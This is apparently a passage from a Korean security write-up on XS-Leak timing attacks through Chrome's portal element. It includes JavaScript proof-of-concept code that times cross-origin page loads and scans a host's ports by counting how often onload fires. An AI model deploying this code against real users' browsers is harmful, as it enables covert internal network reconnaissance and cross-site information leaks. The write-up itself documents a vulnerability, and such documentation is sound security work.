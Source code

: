 ```jsx
function timing(url) {
  const portal = document.createElement("portal");
  portal.src = url;
  const startTime = +new Date();

  portal.onload = () => {
    alert(`${url} loaded for ${new Date() - startTime}ms`);
  };

  document.body.appendChild(portal);
}
```

이 사실 자체로는 Timing Attack을 이용해서 XSLeak 취약점 발생이 가능해보인다는 생각이 잘 들지 않는다. 공격자는 이와 같이 portal 기능은 페이지가 렌더링될 경우 `onload` 이벤트를 방출하며 이를 이용하여 특정 페이지를 portal로 렌더링하기까지 얼마만큼의 시간이 걸리는지에 대한 정보를 획득할 수 있다. 그리고 이를 이용하여 다양한 Timing Attack을 활용한 정보 유출을 시도할 수 있다.

공격자는 `onload` 이벤트가 방출되는 것을 이용하여 포트 스캐닝 공격을 수행할 수 있다. 이는 portal에서 특정 페이지를 렌더링할때 `onload` 이벤트가 몇번 방출 됐는지를 감지하는 방식으로 포트 스캐닝 수행이 가능하다.

- Chrome에서 페이지 렌더링 과정에서 `err_connection_refused` 에러가 발생한다면 `onload` 5번 방출된다.
- Chrome에서 페이지 렌더링 과정에서 `err_invalid_htpp_response` 또는 `err_empty_response` 에러가 발생한다면 `onload` 이벤트가 4번 방출된다.

이와 같은 정보를 기반으로 `onload` 이벤트가 몇 번 트리거 됐는지 유무를 이용해 포트 스캐닝을 진행할 수 있다.

```jsx
async function scanPort(host, port) {
  const portal = document.createElement("portal");
  document.body.appendChild(portal);
  let onloadCounter = 0;
  portal.onload = () => {
    onloadCounter++;
  };

  portal.src = `http://${host}:${port}?${Math.random()}`;

  await sleep(1000);

  portal.remove();

  if (onloadCounter === 0) {
    return `onload didn't fire in 1s --> port ${port} is probably FILTERED`;
  } else if (onloadCounter === 1) {
    return `onload fired once --> port ${port} is probably HTTP and is OPEN`;
  } else if (onloadCounter % 2 === 0) {
    return `onload fired ${onloadCounter} times --> port ${port} is OPEN`;
  } else {
    return `onload fired ${onloadCounter} times --> port ${port} is CLOSED`;
  }
}

function sleep(ms) {
  return new Promise((r) => setTimeout(r, ms));
}
```
